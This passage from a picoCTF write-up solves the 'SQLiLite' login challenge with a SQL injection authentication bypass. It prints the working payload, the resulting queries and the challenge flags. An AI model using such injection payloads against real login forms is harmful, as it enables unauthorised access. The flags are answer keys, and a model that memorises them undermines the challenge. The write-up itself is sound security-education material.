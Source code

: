 **Flag: `picoCTF{L3arN_S0m3_5qL_t0d4Y_31fd14c0}`**

## SQLiLite (300 pts)

> Can you login to this website?
>
> Try to login [here](http://saturn.picoctf.net:65096/).

The login form asks for a username and a password. I entered a typical SQL injection statement `1" or "1"="1"; --` as the username. This was

```text
username: 1" or "1"="1"; --
password: 
SQL query: SELECT * FROM users WHERE name='1" or "1"="1"; --' AND password=''
Login failed.
```

The problem seemed that I needed to close the original statement with a single quote instead of a double quote. I tried again with correct syntax.

```text
username: 1' or "1"="1"; --
password: 
SQL query: SELECT * FROM users WHERE name='1' or "1"="1"; --' AND password=''
Logged in! But can you see the flag, it is in plainsight.
```

I got a different message, saying that I successfully logged in. But the flag was not visible even when I selected all. So I checked the source code.

```html
<pre>username: 1&#039; or &quot;1&quot;=&quot;1&quot;; --
password: 
SQL query: SELECT * FROM users WHERE name=&#039;1&#039; or &quot;1&quot;=&quot;1&quot;; --&#039; AND password=&#039;&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>
```

**Flag: `picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}`**
